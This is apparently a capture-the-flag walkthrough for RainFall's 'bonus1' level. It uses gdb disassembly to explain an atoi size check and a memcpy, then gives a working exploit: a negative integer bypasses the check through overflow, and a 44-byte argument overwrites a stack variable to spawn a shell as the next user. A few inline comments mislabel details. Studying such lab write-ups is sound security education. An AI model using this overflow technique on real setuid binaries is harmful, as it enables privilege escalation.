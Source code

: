 # Walkthrough

After examining the files in the home directory, I noticed a file named `"bonus1"`. I attempted to run it, but it didn't produce any results.

```sh
bonus1@RainFall:~$ ./bonus1 
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 AAAABBBBCCCC
bonus1@RainFall:~$ 
```

 Therefore, I proceeded to debug it using `gdb`. Firstly, I disassembled the `main` function and discovered that it accepts the `argv[1]` parameter from the `main` function.

```s
(gdb) disas main
Dump of assembler code for function main:
   0x08048424 <+0>: push   ebp
   0x08048425 <+1>: mov    ebp,esp
   0x08048427 <+3>: and    esp,0xfffffff0
   0x0804842a <+6>: sub    esp,0x40
   0x0804842d <+9>: mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>: add    eax,0x4
   0x08048433 <+15>: mov    eax,DWORD PTR [eax]
   0x08048435 <+17>: mov    DWORD PTR [esp],eax
   0x08048438 <+20>: call   0x8048360 <atoi@plt>
   0x0804843d <+25>: mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>: cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>: jle    0x804844f <main+43>
   0x08048448 <+36>: mov    eax,0x1
   0x0804844d <+41>: jmp    0x80484a3 <main+127>
   0x0804844f <+43>: mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>: lea    ecx,[eax*4+0x0]
   0x0804845a <+54>: mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>: add    eax,0x8
   0x08048460 <+60>: mov    eax,DWORD PTR [eax]
   0x08048462 <+62>: mov    edx,eax
   0x08048464 <+64>: lea    eax,[esp+0x14]
   0x08048468 <+68>: mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>: mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>: mov    DWORD PTR [esp],eax
   0x08048473 <+79>: call   0x8048320 <memcpy@plt>
   0x08048478 <+84>: cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>: jne    0x804849e <main+122>
   0x08048482 <+94>: mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>: mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>: mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>: call   0x8048350 <execl@plt>
   0x0804849e <+122>: mov    eax,0x0
   0x080484a3 <+127>: leave  
   0x080484a4 <+128>: ret    
End of assembler dump.
(gdb) x/s 0x8048583
```

  It then checks whether this parameter is less than or equal to `9` by converting it to an integer with the help of `atoi`. If it's false, the function returns 1,
  
  ```c
   0x0804842d <+9>: mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>: add    eax,0x4
   0x08048433 <+15>: mov    eax,DWORD PTR [eax]
   0x08048435 <+17>: mov    DWORD PTR [esp],eax
   0x08048438 <+20>: call   0x8048360 <atoi@plt>
   0x0804843d <+25>: mov    DWORD PTR [esp+0x3c],eax // store the result of atoi in esp+0x3c
   0x08048441 <+29>: cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>: jle    0x804844f <main+43>
   0x08048448 <+36>: mov    eax,0x1
   0x0804844d <+41>: jmp    0x80484a3 <main+127>
   -------------------------------------------------------
   0x080484a3 <+127>: leave  
   0x080484a4 <+128>: ret    
  ```

  but if it's true, it copies the number (converted by atoi) multiplied by 4 bytes from `argv[2]` into a buffer using `memcpy`.

  ```c
   0x08048453 <+47>: lea    ecx,[eax*4+0x0] // eax contains the string converted to integer
   0x0804845a <+54>: mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>: add    eax,0x8
   0x08048460 <+60>: mov    eax,DWORD PTR [eax] // argv [1]
   0x08048462 <+62>: mov    edx,eax
   0x08048464 <+64>: lea    eax,[esp+0x14] // buffer
   0x08048468 <+68>: mov    DWORD PTR [esp+0x8],ecx // 
   0x0804846c <+72>: mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>: mov    DWORD PTR [esp],eax
   0x08048473 <+79>: call   0x8048320 <memcpy@plt>
  ```
  
  After that, it checks whether the converted number is not equal to `1464814662`. If it's true, the function returns 0. However, if it's false, it calls the `execl` function with the following parameters: `"/bin/sh"` - `"sh"` - `NULL`.

```c
   0x08048478 <+84>: cmp    DWORD PTR [esp+0x3c],0x574f4c46 // 1464814662 <=> "WOLF"
   0x08048480 <+92>: jne    0x804849e <main+122>
   0x08048482 <+94>: mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>: mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>: mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>: call   0x8048350 <execl@plt>
   0x0804849e <+122>: mov    eax,0x0
   0x080484a3 <+127>: leave  
   0x080484a4 <+128>: ret    
```

Subsequently, we can infer that in order to initiate a new shell process, we must save the number `0x574f4c46` in `esp+0x3c`. The issue, however, is that we cannot store a number that is greater than 9. As a result, we must find a method to overwrite the value in `esp+0x3c`. To begin, let's print the stack's contents after executing the program.

```c
(gdb) r 9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Starting program: /home/user/bonus1/bonus1 9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
------------ stack ------------
0xbffff580:	0xbffff594	0xbffff7c8	0x00000024	0x080482fd
0xbffff590:	0xb7fd13e4	0x41414141	0x42424242	0x43434343
0xbffff5a0:	0x44444444	0x45454545	0x46464646	0x47474747
0xbffff5b0:	0x48484848	0x49494949	0x080484b9	0x00000009 // <== esp + 3c 
0xbffff5c0:	0x080484b0	0x00000000	0x00000000	0xb7e454d3

```

Upon observation, we noticed that we only copied to the value `0x49494949`, which is the equivalent of `"IIIII"`. This is because we previously stated that we only copied the size stored in `esp+0x3c` multiplied by 4, which is equivalent to shifting the number left by two `(<< 2)`, resulting in 36. Therefore, if we want to modify the value stored in `esp+0x3c`, we must copy at least 44 bytes.

To bypass the check for a value less than or equal to 9, we can enter a negative value. To do this, we can convert the number 11 to binary in 32-bit format:

```
> 11d = 00000000000000000000000000001011b
```
where the leftmost bit represents the sign of the number. If the leftmost bit is 0, then the number is positive. If it is 1, then the number is negative. We can change this bit to 1 to represent a negative value.

```
> 10000000000000000000000000001011b = -2147483637d
```

 Since we know that the value entered will be shifted left by 2 bits, we can see that all bits will be shifted left by 2 positions.

```
> 00000000000000000000000000101100b =  44
```

To execute the program with a negative value, we just need to change the first parameter to `-2147483637`, which is the decimal representation of the binary value we obtained by changing the leftmost bit of 11 to 1. Additionally, we need to enter a string with 40 characters followed by `"FLOW"` (which is equivalent to `0x574f4c46`) as the second parameter to the program.
```

```sh
bonus1@RainFall:~$  ./bonus1 -2147483637 `python2 -c 'print("A" * 40 + "FLOW")'`
$ whoami
bonus2
$ cd ../bonus2
$ ls -la
total 17
dr-xr-x---+ 1 bonus2 bonus2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus2 bonus2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus2 bonus2 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus2 bonus2   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus2 bonus2  675 Apr  3  2012 .profile
-rwsr-s---+ 1 bonus3 users  5664 Mar  6  2016 bonus2
```